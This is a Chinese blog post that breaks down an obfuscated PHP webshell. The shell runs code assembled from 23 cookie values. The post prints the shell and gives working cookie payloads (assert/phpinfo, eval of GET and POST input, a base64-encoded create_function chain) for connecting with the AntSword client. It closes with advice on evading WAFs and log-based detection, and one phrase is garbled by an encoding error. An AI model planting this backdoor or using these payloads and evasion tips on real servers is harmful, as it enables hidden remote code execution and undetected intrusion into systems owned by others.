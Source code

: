 # 某Shell分析以及自己的一些想法


<meta name="referrer" content="no-referrer" />

## 前言

```
<?php
$p=$_COOKIE;(count($p)==23&&in_array(gettype($p).count($p),$p))?(($p[59]=$p[59].$p[72])&&($p[91]=$p[59]($p[91]))&&($p=$p[91]($p[90],$p[59]($p[31])))&&$p()):$p;
?>
```

星球里有很多同学想让我对这个shell写一篇解析，看了下确实比较有意思，并且顺便也想讲一些自己的想法。

## 语法分析

比较复杂的样子，一点点看吧。

首先pç­ä»·äºcookie数组，属性是一个array。

后面一长串其实是个三段式

### 第一部分：条件

```
(count($p)==23&&in_array(gettype($p).count($p),$p))
```

也就是说$p这个字典的长度要必须是23，并且gettype($p).count($p)拼接后的值必须在$p这个字典里。

因为$p是array，count($p)=23，所以也就是说cookie中必须有一个值是array23

### 第二部分：条件成立时执行

```
(($p[59]=$p[59].$p[72])&&($p[91]=$p[59]($p[91]))&&($p=$p[91]($p[90],$p[59]($p[31])))&&$p())
```

注意这里已经出现了变量函数的部分了 ,这两句将是后面讲的重点

`$p[59]($p[91])`   可以变为 `assert($_POST['cmd'])`等等

`$p=$p[91]($p[90],$p[59]($p[31]))` 可以变为`create_function('',eval($_POST[cmd]))`等等

### 第三部分：条件不成立时执行

这部分没卵用。

### Payload

这是某论坛大佬给出的payload

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900367834-69b6b54d-2077-49ef-ae96-fadc26172966.png)

可以看到是相当于拼接了一个`eval(strrev(倒置的create_function(,eval($_POST[cmd]))))`(差不多这个意思)

然后就可以用密码是cmd的一句话连接了。

但是想一想，因为里面有大量的可控参数，所以其实有很多玩法。

举几个例子

最短的用法，91处直接写命令

为了方便我把$p给var_dump了出来

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900367984-716e26b3-7098-466a-8730-ed486ae627a6.png)

```
Cookie: 1; 2; 3; 4; 5; 6; 7; 8; 9; 10; 11; 12; 13; 14; 15; 16; 17; 18=array23; 19; 20; 59=assert; 72=; 91=phpinfo();
```

还可以通过GET传参

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900368703-791b82d2-1046-4b91-80ee-a72488a42a1c.png)

```
Cookie: 1; 2; 3; 4; 5; 6; 7; 8; 9; 10; 11; 12; 13; 14; 15; 16; 17; 18=array23; 19; 20; 59=assert; 72=; 91=@eval($_GET[a]);
```

当然也可以改成POST，用蚁剑连接

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900368826-fd59b7f2-3f0d-4e0d-b961-b9c9c29a3e62.png)

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900368980-93986ecd-3ffb-44e4-86a4-53909554bcd9.png)

```
Cookie: 1; 2; 3; 4; 5; 6; 7; 8; 9; 10; 11; 12; 13; 14; 15; 16; 17; 18=array23; 19; 20; 59=assert; 72=; 91=@eval($_POST[a]);
```

直接在cookie里明文出现`@eval($_POST[a]);`肯定是不太好的，容易被拦截。

我们别忘了第二处出现变量函数的地方

```
($p=$p[91]($p[90],$p[59]($p[31])))&&$p())
```

这里可以满足我们的各种编码需求。

论坛中的payload是用strrev函数编码过的，也就是字符串反转，我们当然也可以用其他的比如base64

```
Cookie: 1; 2; 3; 4; 5; 6; 7; 8; 9; 10; 11; 12; 13; 14; 15; 16; 17; 18=array23; 31=ZXZhbChwaHBpbmZvKCkpOw==; 90; 59=base64_; 72=decode; 91=Y3JlYXRlX2Z1bmN0aW9u;
```

其中31是eval(phpinfo());  91是create_function

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900369072-90a3338f-479f-4c7b-9cbf-214c9fe140e9.png)

转化成蚁剑能够连接的一句话

也就是把31处改为`eval($_POST[cmd]);`的base64编码，注意这里最后一定要加分号。

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900369164-286ebbee-06b6-4d01-8ee8-fb6863aaf47d.png)

然后用蚁剑连接就可以了。

## 反思扩展

总结一下这个shell构思的巧妙之处

1. shell没有明显的`eval assert $_POST $_GET`等常规特征
2. 动态函数的形式，可以用多种编码进行传输payload

1. 用cookie传payload，在一定程度上逃避WAF常见的POST跟GET型流量查杀

这里就想到一个问题，在网络对♂抗的时候经常有人发出疑问：

我的shell是免杀的，我的马也藏得很深，但是为什么我的shell总是能被对方找到？

尽管你的shell是免杀的，也藏在了很深的目录，也有可能你的流量也是层层编码过的，但是常见的一句话连接工具不管是菜刀还是蚁剑还是冰蝎也好，都难逃一个特点就是**POST传输**。

因为正常的业务中，大多数情况下都是只需GET请求，只有修改或者上传等操作的时候才需要POST。

但是一旦你的shell连接上后，你在蚁剑中的每个操作，每个查询，都会对应一次甚至多次POST发包。

就更别说你需要在靶机上继续进行信息搜集等操作了，点的越多，流量日志记录的就越多。

日志中看到某一个文件短时间内被同一IP连着POST了几十次，用脚趾头想想就知道有问题。。。然而大多数人并不懂得如何正确擦屁股。

所以在我看来，以后的方向可能就是GET请求+cookie或者http头传输payload。

kali上著名的工具weevely也是采用了GET传payload的模式：[Weevely命令传输分析](https:_www.freebuf.com_sectool_130560)

但是命令行总是不方便，如果能够用拓展性强大的蚁剑能实现就好了。

那么如何实现呢?

这个等我学会了再给大家分享。。。。。。

留下了不学无术的泪水.jpg









